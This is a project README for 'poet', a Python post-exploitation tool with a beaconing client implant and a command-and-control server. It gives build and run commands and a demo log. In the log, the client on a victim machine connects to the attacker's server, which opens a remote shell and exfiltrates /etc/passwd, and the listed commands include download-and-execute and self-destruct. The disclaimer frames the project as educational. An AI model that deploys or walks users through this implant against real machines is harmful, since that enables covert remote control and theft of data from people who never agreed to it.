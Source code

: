 # poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## getting started

Go to the [releases](http://github.com/mossberg/poet/releases) page and
download the latest `poet-client` and `poet-server` files available.

Then skip to the Usage section below.

Alternatively, you can build Poet yourself (it's pretty easy). Make sure you
have the `python2.7` and `zip` executables available.

```
$ git clone https://github.com/mossberg/poet
$ cd poet
$ make
```

This will create a `bin/` directory which contains `poet-client`
and `poet-server`.

## usage

Poet is super easy to use, and requires nothing more than the Python (2.7)
standard library. To easily try it out, a typical invocation would look like:

Terminal 1:

```
$ ./poet-client -v 127.0.0.1 1
```

Terminal 2:

```
$ sudo ./poet-server
```

Note: By default, the server needs to be run as root (using `sudo`) because
the default port it binds to is 443. If that makes you uncomfortable, simply
omit `sudo` and use the `-p <PORT>` flag on both the client and server. Pick a
nice, high number for your port (> 1024).

Of course, using the `-h` flag gives you the full usage.

```
$ ./poet-client -h
usage: poet-client [-h] [-p PORT] [-v] [-d] IP [INTERVAL]

positional arguments:
  IP                    server
  INTERVAL              (s)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  -v, --verbose
  -d, --delete          delete client upon execution

$ ./poet-server -h
usage: poet-server [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
```

## demo

This is just a small sample of what poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client (in verbose mode ;).  He/she does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then he/she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server.

Victim's Machine (5.4.3.2):

```
$ ./poet-client -v 1.2.3.4 10
[+] Poet started with interval of 10 seconds to port 443. Ctrl-c to exit.
[!] (2015-03-27 03:40:12.259676) Server is inactive
[!] (2015-03-27 03:40:22.263161) Server is inactive
[!] (2015-03-27 03:40:32.267308) Server is inactive
[+] (2015-03-27 03:40:42.273376) Server is active
[!] (2015-03-27 03:41:07.145979) Server is inactive
[!] (2015-03-27 03:41:17.150634) Server is inactive
[!] (2015-03-27 03:41:27.155614) Server is inactive
[!] (2015-03-27 03:41:37.160440) Server is inactive
```

Attacker's Machine (1.2.3.4):

```
# ./poet-server
                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/     v0.4.1
    /_/

[+] Poet server started on 443.
[+] (2015-03-27 03:40:42.272601) Connected By: ('5.4.3.2', 59309) -> VALID
[+] (2015-03-27 03:40:42.273087) Entering control shell
Welcome to psh, the Poet shell!
Running `help' will give you a list of supported commands.
psh > shell
psh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
psh > user@server $ ^D
psh > exfil /etc/passwd
psh : exfil written to archive/20150327/exfil/passwd-201503274054.txt
psh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
  help
  recon
  selfdestruct
  shell
psh > exit
[+] (2015-03-27 03:40:57.144083) Exiting control shell.
[-] (2015-03-27 03:40:57.144149) Poet server terminated.
```

## disclaimer

I am building Poet purely for my own education and learning experience.
The code is freely available because I think it might be useful to others
interested in learning about this sort of thing. Use it responsibly.
